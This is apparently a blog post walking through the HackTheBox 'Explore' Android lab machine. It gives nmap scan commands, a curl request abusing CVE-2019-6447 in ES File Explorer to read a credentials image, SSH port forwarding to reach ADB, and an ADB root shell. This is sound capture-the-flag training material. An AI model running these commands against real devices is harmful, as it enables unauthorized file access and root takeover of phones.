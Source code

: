 ```yaml
---
title: Explore
published: true
layout: post
---
```


<br />

---------------
Explore is an easy difficulty Android machine. Network enumeration reveals a vulnerable service that is exploitable via a Metasploit module, and gives restricted read access to the machine. Further enumeration of the files, reveals the SSH credentials of a system user, allowing this way remote access to the machine. Finally, the attacker is able to forward a filtered port locally using SSH tunneling, in order to access the Android shell over the Android Debug Bridge (ADB). This eventuality allows the attacker to execute commands as the root user.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/BlQl6DmT3GE?si=nk2a2oGSkrmF9h0hFQ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.10.247 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.10.247 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```

<br />

This machine was very unstable, so I had to perform several scans to find all the open ports, there were **3 open ports**:
+ **2222/tcp**
+ **42135/tcp**
+ **59777/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.247 -p 2222,42135,59777 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```

<br />

The services correspond to:
+ **2222/tcp Banana Studio SSH server app (net.xnano.android.sshserver.tv) (protocol 2.0)**
+ **42135/tcp ES File Explorer Name Response httpd**
+ **59777/tcp Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.247 -p 2222,42135,59777 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```

<br />

This scan didn't return any relevant information.

<br />

------

<br />
### Foothold

I hadn't faced an Android machine before this one, so this machine was actually hard for me.

<br />

If we browse for **ES File Explorer exploit** in Google, we will find **CVE-2019-6447**:<br />

![](/assets/Explore/1.png)

<br />
<br />

This vulnerability seems to require **port 59777 to be open**, which it is, so we can try it to see if it works:<br />

![](/assets/Explore/2.png)

<br />
<br />

It seems that we can send a **POST request** to this post with some **JSON data** to perform **arbitrary file read**:<br />

![](/assets/Explore/3.png)

<br />
<br />

Great! It worked! After a bit of investigation, we can find a picture named **creds.jpg** by sending `listPics` as the command:<br />

![](/assets/Explore/4.png)

<br />
<br />

We can download it using `curl` and then inspect it:

```bash
curl -d '{"command": getFile}' -H 'Content-Type: application/json' http://10.10.10.247:59777/storage/emulated/0/DCIM/creds.jpg --output creds.jpg
display creds.jpg
```

![](/assets/Explore/5.png)

<br />
<br />

This is... a CTF definitely. We can use this credential to login the machine, however we will receive an **error related to the host key type**, so we have to specify the key type to login:

```bash
ssh kristi@10.10.10.247 -oHostKeyAlgorithms=+ssh-rsa -p 2222
```

![](/assets/Explore/6.png)

<br />
<br />

We can inspect the **/storage/emulated/0/ directory**, as it's the directory where user's data is saved:

```bash
ls -la /storage/emulated/0/
```

![](/assets/Explore/7.png)

<br />
<br />

Here is the flag, let's print it and go for privilege escalation:

```bash
cat /storage/emulated/0/user.txt
```

![](/assets/Explore/8.png)

<br />
<br />

---

<br />

### Privilege Escalation

<br />

Privilege escalation in this machine is "easy", the quotes are there as **port forwarding** is a concept I mistake very often, so it took me a while to switch from remote port forwarding to local port forwarding.

<br />

Enumerating the connections in this machine, we can find a **port that is not exposed**:

```bash
netstat -tulpen
```

![](/assets/Explore/9.png)

<br />
<br />

**Port 5555** is behind a firewall, so it must be important, searching for it in the Internet, I found that it's the port for **ADB (Android Debug Bridge)**, anything related to debugging is interested, however we can't connect to it from our machine and the victim don't have the command `adb` installed, so we have to perform **port forwarding**, I will try to explain the command the best I can:

```bash
ssh -N -L 10.10.16.6:5555:127.0.0.1:5555 kristi@10.10.10.247 -p 2222 -oHostKeyAlgorithms=+ssh-rsa
```

<br />

We have to think that the **port forwarding is being performed by the target machine**, so we are **redirecting traffic from the port 5555 (first 5555) of the machine executing the `ssh` command (our kali machine, with it's VPN IP) to the machine that is performing the port forwarding (the victim machine, that's why the IP is 127.0.0.1, as the port is only accessible at the localhost IP), on its port 5555 (second 5555)**, this way we can connect to our own port 5555 using `adb`, but the traffic will be redirected to the victim.

<br />

Now to leverage this port forward we have to specify our VPN IP, it doesn't work with our localhost IP, and the port:

```bash
adb connect 10.10.16.6:5555
```

![](/assets/Explore/10.png)

<br />
<br />

We can now leverage ADB to **connect as root** to the machine:

```bash
adb root
adb shell
```

![](/assets/Explore/11.png)

<br />
<br />

We can use the `find` command to search for the root flag:

```bash
find / -name root.txt 2>/dev/null
cat /data/root.txt
```

![](/assets/Explore/12.png)

<br />
<br />
